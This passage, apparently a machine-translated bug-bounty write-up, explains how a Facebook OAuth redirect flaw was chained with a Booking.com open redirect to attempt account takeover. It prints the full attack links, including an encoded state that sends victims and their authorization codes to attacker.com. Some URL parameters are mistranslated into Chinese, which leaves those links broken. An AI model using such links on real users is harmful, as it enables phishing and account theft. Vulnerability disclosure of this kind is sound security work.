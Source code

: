 **https://account.booking.com/oauth2/authorize?aid=123;client_id=d1cDdLj40ACItEtxJLTo;redirect_uri=https://account.booking.com/settings/oauth_callback;response_type=code;state=eyJteXNldHRpbmdzX3BhdGgiOiJodHRwczovL2F0dGFja2VyLmNvbS9pbmRleC5waHAiLCJhaWQiOiIxMjMifQ**

该链接会自动将受害者重定向到较短的链接（我之前跳过了它）：

**https://account.booking.com/settings/oauth_callback?state=eyJteXNldHRpbmdzX3BhdGgiOiJodHRwczovL2F0dGFja2VyLmNvbS9pbmRleC5waHAiLCJhaWQiOiIxMjMifQ&amp;code=not_important_123**

然后到：

****https://attacker.com/index.php****

您可能已在打开重定向链接中看到“OAuth”或“redirect_uri”一词。我认为这是 OAuth 在 Booking.com 的内部实现。它与Facebook或安全漏洞1的redirect_uri无关。

**现在我们在 booking.com 中有一个开放的重定向错误。**

---


---


## **五、安全漏洞 1 + 2 = 帐户接管尝试**

从安全漏洞 1 到 Facebook 的链接（我们可以将代码发送到我们想要的任何路径）：

**https://www.facebook.com/v3.0/dialog/oauth?redirect_uri=https://account.booking.com/** ****any/path/we/want******&amp;scope=email&amp;client_id=210068525731476&amp;state=large_object]&amp;response_type=code**

**+**

来自安全缺口 2（重定向到 **www.attacker.com**）的开放重定向链接为：

****https://account.booking.com/oauth2/authorize?aid=123;client_id=d1cDdLj40ACItEtxJLTo;redirect_uri=https://account.booking.com/settings/oauth_callback;response_type=code;state=eyJteXNldHRpbmdzX3BhdGgiOiJodHRwczovL2F0dGFja2VyLmNvbS9pbmRleC5waHAiLCJhaWQiOiIxMjMifQ****

**=**

让我们在安全漏洞 1 的redirect_uri中插入打开的重定向链接：

**https://www.facebook.com/v3.0/dialog/oauth?redirect_uri=******https://account.booking.com/oauth2/authorize?aid=123;client_id=d1cDdLj40ACItEtxJLTo;redirect_uri=https://account.booking.com/settings/oauth_callback;response_type=code;state=eyJteXNldHRpbmdzX3BhdGgiOiJodHRwczovL2F0dGFja2VyLmNvbS9pbmRleC5waHAiLCJhaWQiOiIxMjMifQ******&amp;范围=电子邮件&amp;response_type=代码&amp;client_id=210068525731476**

我们将此链接发送给受害者。

###### **更改响应类型**

如果受害者点击链接，Facebook 会将用户重定向到安全漏洞 2 中的 URL，并带有代码：

**https://account.booking.com/oauth2/authorize?aid=123;client_id=d1cDdLj40ACItEtxJLTo;redirect_uri=https://account.booking.com/settings/oauth_callback;response_type=code;state=eyJteXNldHRpbmdzX3BhdGgiOiJodHRwczovL2F0dGFja2VyLmNvbS9pbmRleC5waHAiLCJhaWQiOiIxMjMifQ&amp;代码=[secret_code]**

它是具有开放重定向的 URL（状态 eyJteXN...指向 attacker.com），因此 Booking 将受害者重定向到：**https://attacker.com/index.php**。
